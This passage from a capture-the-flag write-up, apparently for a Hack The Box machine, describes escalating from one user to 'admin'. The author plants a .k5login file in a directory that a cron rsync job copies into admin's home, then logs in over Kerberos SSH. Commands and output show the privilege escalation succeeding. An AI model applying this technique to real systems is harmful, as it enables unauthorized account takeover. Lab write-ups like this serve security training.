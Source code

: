 ```
```

It was running as admin, I had no doubt that I had to get admin first. Looking at the script.

```

[j.nakazawa@srv01 bin]$ ls -al
total 4
drwxr-xr-x.  2 root root   27 Nov  3  2020 .
drwxr-xr-x. 12 root root  131 Nov  3  2020 ..
-rwxr-xr--.  1 root admin 229 Dec  9 12:09 log_backup.sh

[j.nakazawa@srv01 bin]$ cat log_backup.sh 
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log
[j.nakazawa@srv01 bin]$ which cd
/usr/bin/cd
[j.nakazawa@srv01 bin]$ echo $PATH
/home/j.nakazawa/.local/bin:/home/j.nakazawa/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin

```

Okay... So script is basically syncing two directories. The /var/log/squid and /home/admin. It basically writes what the squid directory had to the admin directory because it was running rsync. 

One of my first thoughts was to hijack the path of binaries. Because my user was in the path but then I got to know that cronjobs can have their own paths and also the binaries were using absolute paths, leaving no opening fot path hijack. I did try to hijack the "cd" binary though, but that didn't work because "cd" was  built in binary and does not use the PATH variable to locate it.

I tried writing my public ssh key to the .ssh folder in admin but that didn't work. After a nudge I got to know about the presence of .k5login file which basically allows any user to login as another user if they have their name inside that file and that file is located in another users home folder.

Since I was in the squid group I could write to /var/log/squid. I created a file with the content as

`j.nakazawa@REALCORP.HTB`

and saved it. After that I waited a few seconds and let the cron job run which will place this file in the admin folder for me. And I was able to SSH as admin.

[Reference](https://web.mit.edu/kerberos/krb5-devel/doc/user/user_config/k5login.html)

```
[j.nakazawa@srv01 ~]$ cd /var/log/squid/
[j.nakazawa@srv01 squid]$ ls
ls: cannot open directory '.': Permission denied
[j.nakazawa@srv01 squid]$ vi .k5login

ssh -o GSSAPIServerIdentity=srv01.realcorp.htb admin@realcorp.htb.htb
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Thu May 20 06:16:01 2021
[admin@srv01 ~]$ ls
squid_logs.tar.gz.2021-05-20-061601
[admin@srv01 ~]$ whoami
admin
[admin@srv01 ~]$ id
uid=1011(admin) gid=1011(admin) groups=1011(admin),23(squid) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
